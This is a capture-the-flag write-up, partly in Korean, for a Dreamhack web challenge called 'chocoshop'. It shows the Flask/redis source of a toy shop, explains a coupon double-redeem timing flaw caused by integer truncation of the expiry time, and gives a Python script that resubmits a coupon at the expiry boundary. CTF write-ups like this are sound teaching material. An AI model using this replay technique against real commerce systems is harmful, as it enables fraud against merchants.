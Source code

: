 ## chocoshop
---

```python
from flask import Flask, request, jsonify, current_app, send_from_directory
import jwt
import redis
from datetime import timedelta
from time import time
from werkzeug.exceptions import default_exceptions, BadRequest, Unauthorized
from functools import wraps
from json import dumps, loads
from uuid import uuid4

r = redis.Redis()
app = Flask(__name__)

# SECRET CONSTANTS
# JWT_SECRET = 'JWT_KEY'
# FLAG = 'DH{FLAG_EXAMPLE}'
from secret import JWT_SECRET, FLAG

# PUBLIC CONSTANTS
COUPON_EXPIRATION_DELTA = 45
RATE_LIMIT_DELTA = 10
FLAG_PRICE = 2000
PEPERO_PRICE = 1500


def handle_errors(error):
    return jsonify({'status': 'error', 'message': str(error)}), error.code

 
for de in default_exceptions:
    app.register_error_handler(code_or_exception=de, f=handle_errors)


def get_session():
    def decorator(function):
        @wraps(function)
        def wrapper(*args, **kwargs):
            uuid = request.headers.get('Authorization', None)
            if uuid is None:
                raise BadRequest("Missing Authorization")

            data = r.get(f'SESSION:{uuid}')
            if data is None:
                raise Unauthorized("Unauthorized")

            kwargs['user'] = loads(data)
            return function(*args, **kwargs)
        return wrapper
    return decorator


@app.route('/flag/claim')
@get_session()
def flag_claim(user):
    if user['money'] < FLAG_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= FLAG_PRICE
    return jsonify({'status': 'success', 'message': FLAG})


@app.route('/pepero/claim')
@get_session()
def pepero_claim(user):
    if user['money'] < PEPERO_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= PEPERO_PRICE
    return jsonify({'status': 'success', 'message': 'lotteria~~~~!~!~!'})


@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')

    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')

    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')


@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')

    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})


@app.route('/session')
def make_session():
    uuid = uuid4().hex
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(
        {'uuid': uuid, 'coupon_claimed': False, 'money': 0}))
    return jsonify({'session': uuid})


@app.route('/me')
@get_session()
def me(user):
    return jsonify(user)


@app.route('/')
def index():
    return current_app.send_static_file('index.html')

@app.route('/images/<path:path>')
def images(path):
    return send_from_directory('images', path)

```

<br><br>

## Solution
---

timing을 맞춰야 하는데 코드를 보면 쿠폰을 생성하면 만료 시간이 설정되고, 쿠폰을 제출하면 두 개의 키가 redis에 등록되는데 두 번째 키가 중요하다.

두 번째 키의 만료 시간을 보면 쿠폰의 만료 시간에서 현재 시간을 뺀다.

즉, 두 번째 키는 쿠폰이 만료되는 시점에 없어진다고 보면 되는데.. 

```coupon['expiration'] < int(time()): raise BadRequest('Coupon expired!')``` 이 부분을 생각해보자.

<br>

쿠폰을 만든 시점이 정확히 100초라 할 때, 쿠폰 만료 시점은 정확히 145초이고 키 또한 정확히 145초에 만료된다.

지금이 정확히 145초라고 치면 일단 키는 만료되었는데, ```int(time())```부분에서 만약 ```time()``` 값이 ```145.1 ~ 145.9```초 사이에 있다고 하자.

이 시점에선 어차피 int를 통해 145초가 되므로 ```145<145```가 조건문을 통과할 수 있으며, 이미 145초를 지난, ```145.1 ~ 145.9```초 사이에 있으므로 두 번째 키 또한 만료되었다.

따라서 돈을 천원 더 넣을 수 있게 되어 2000원이 되므로 플래그를 사면 플래그를 alert 해준다.

<br>

```python
import requests
import time
import json

url = 'http://host3.dreamhack.games:{port}/coupon/claim'
headers = {
    "Authorization": "{uuid}",
    "Content-Type": "application/json, application/x-www-form-urlencoded"
}

res = requests.get(url, headers=headers)
# coupon_expire_time = int(time.time()) + 44.2

'''
코드 상으로는 res가 받은 시점에서는 이미 쿠폰은 생성된지 조금이라도 시간이 지나있다.

이 부분을 유의해서 쿠폰 만료 시간을 계산한 것.
'''

coupon = json.loads(res.text)
headers["coupon"] = coupon["coupon"]

url = 'http://host3.dreamhack.games:21345/coupon/submit'
res = requests.get(url, headers=headers)

'''
while (1):
    print("wait...")
    if (int(time()) == coupon_expire_time):  ---> 이 걸로 하면 키가 만료 되기 전에 보내지므로 안됨.
        res = requests.get(url, headers=headers)
        print(res.text)
        break
'''

time.sleep(44.2) 
# 쿠폰이 만료될 시점을 고려해서 키는 없어졌지만 아직 쿠폰 만료 시간과 int(time) 값이 동일할 때 보내야 함
# 안되면 조금씩 내림조정해서 설정
res = requests.get(url, headers=headers)
print(res.text)
```
